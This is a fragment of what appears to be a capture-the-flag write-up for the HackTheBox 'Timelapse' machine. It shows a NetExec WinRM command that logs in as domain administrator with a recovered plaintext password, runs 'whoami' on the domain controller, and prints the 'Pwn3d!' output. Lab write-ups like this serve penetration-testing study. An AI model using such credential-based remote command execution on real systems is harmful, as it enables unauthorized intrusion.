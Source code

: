 Using the above credentials to log in as administrator in timelapse.htb

```bash
nxc winrm 10.10.11.152 -u 'administrator' -p '67k8!2(4A7Ck81%!3.6r3M&q' -x 'whoami'
WINRM-SSL   10.10.11.152    5986   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:timelapse.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM-SSL   10.10.11.152    5986   DC01             [+] timelapse.htb\administrator:67k8!2(4A7Ck81%!3.6r3M&q (Pwn3d!)
WINRM-SSL   10.10.11.152    5986   DC01             [+] Executed command (shell type: cmd)
WINRM-SSL   10.10.11.152    5986   DC01             timelapse\administrator
```
